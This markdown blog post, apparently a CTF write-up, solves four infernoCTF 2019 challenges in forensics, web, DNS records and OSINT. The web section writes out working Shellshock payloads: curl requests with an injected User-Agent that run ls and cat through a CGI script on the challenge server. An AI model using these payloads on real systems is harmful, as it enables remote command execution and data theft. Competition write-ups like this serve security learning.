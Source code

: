 ```yaml
---
layout: post
title: "infernoCTF 2019"
date: 2019-12-28T05:34:17-05:00
description: "forensic, web, misc, osint writeup"
---
```


# Merry Christmas (Forensic, 200)
### Description
OSINT is the way
<br>
<br>

### Solution

We were given a zip file named `output.zip` and a hint `What is mrT4ntr4's last name?` 

Most probably the password of the zip file is mrT4ntr4's last name. So let's search it over the internet.

![nice](/assets/images/Screenshot_2019-12-28_05-48-27.png)

After extracting the zip file with a password "Malhotra", there's this file named `flag.gif`. Did some check on the gif file and foundout that the header was modified.

![nice](/assets/images/Screenshot_2019-12-28_05-57-28.png)

The file signature for GIF file should be like this **47 49 46 38 37 61** or **47 49 46 38 39 61**

Fixing the modified header to its original will give us the flag!

<!-- ![nice](/assets/images/Screenshot_2019-12-28_06-06-37.png) -->

![nice](/assets/images/infernoCTF_2019_flag.gif)

`infernoCTF{M3RRy_ChR1stmAs}`

<div class="divider"></div>

# We will we will Shock You (Web, 150)
### Description
`http://104.197.168.32:17012/index.html`
<br>
<br>

### Solution

The title itself gives me an idea that maybe it's a shellshock bash bug.

Checking the source code of the website gives me this file `bashferno.cgi`

![nice](/assets/images/Screenshot_2019-12-28_06-15-42.png)

Ok lets try to get that flag using shellshock exploit.

> curl -H "user-agent: () { :; }; echo; echo; /bin/ls" http://104.197.168.32:17012/bashferno.cgi

![nice](/assets/images/Screenshot_2019-12-28_06-20-42.png)

cat'ting the txt file will give us the flag

``` 
curl -H "user-agent: () { :; }; echo; echo; /bin/cat flag_for_this_INFERNO.txt" http://104.197.168.32:17012/bashferno.cgi
```
reading the text file will give us the flag.

`infernoCTF{F33l_Th3_Sh0ck}`

<div class="divider"></div>

# Check Again (200)
### Description
_Did you check the site , I mean check again._
<br>
<br>

### Solution

We we're given a text file named `Openit` and a hint `Dante Nero Sparda are the true demons.`

Checking the text file give me this lol

> Check Again!!!
> 
> 
> ...
> 
> 
> Press Home Btn.

As you can see in the hint `D`ante `N`ro `S`parda are the true demons.

So okay, we need to check the DNS of the website.

I used [dnsrecon](https://github.com/darkoperator/dnsrecon) for this.

``` 
dnsrecon -d infernoctf.live -D /usr/share/wordlists/dnsmap.txt -t std --xml dnsrecon.xml
```

![nice](/assets/images/Screenshot_2019-12-28_06-39-08.png)

`infernoCTF{N1c3_Pl4c3_70_h1d3_1n_th3_Rec0rds}`

<div class="divider"></div>

# Whistle Blower (OSINT, 226)
### Description
_After playing some 2048 you come across an interesting email exchange... What could it lead to?_
<br>
<br>

### Solution
Cheking the file `employment_status.mbox` 
```javascript
X-Gmail-Labels: Sent,Opened,leak
MIME-Version: 1.0
Date: Tue, 24 Dec 2019 13:59:13 -0800
Subject: Re: Status Regarding Your Employment
From: iam thedeveloper <imdeveloper123@gmail.com>
To: angry employer <veryangryemployer@gmail.com>
Content-Type: multipart/alternative; boundary="0000000000005405a8059a7a4108"

--0000000000005405a8059a7a4108
Content-Type: text/plain; charset="UTF-8"

Hello Angry Employer,

I will not stand for this, it was a simple mistake that anyone could have
made.
If anything, I should blame your company training!
I'm leaking all confidential information, on purpose this time.

Hope you like being the center of attention on infosec twitter!

- imdeveloper123

On Tue, Dec 24, 2019 at 1:54 PM angry employer <veryangryemployer@gmail.com>
wrote:

Hello Mr. imdeveloper123,

Are you kidding me? You leaked company info by making the dot-files you
use for work purposes *public* on your GitHub?
It should come at no surprise that as of the time of writing this email,
you are permanently released from your current job.

Please talk to HR ASAP.

- Angry Employer
```

This line `Hope you like being the center of attention on infosec twitter!` gives me an idea. Let's find something useful on twitter! 

Tried searching `imdeveloper123` on twitter and it leads me to this account [@imdeveloper123](https://twitter.com/imdeveloper123)

![nice](/assets/images/Screenshot_2019-12-28_06-56-29.png)

Checking the deleted website on [https://web.archive.org/web/20191224223734/https://iamthedeveloper123.weebly.com/](https://web.archive.org/web/20191224223734/https://iamthedeveloper123.weebly.com/) will give us the flag.

`infernoCTF{y0u_f0und_7h3_d1sgrun7l3d_empl0y33!}`

---

That's a wrap! Thank you for reading. Just finished 109th with 786 pts

Badly need more time to learn crypto, pwn and reverse engineering.
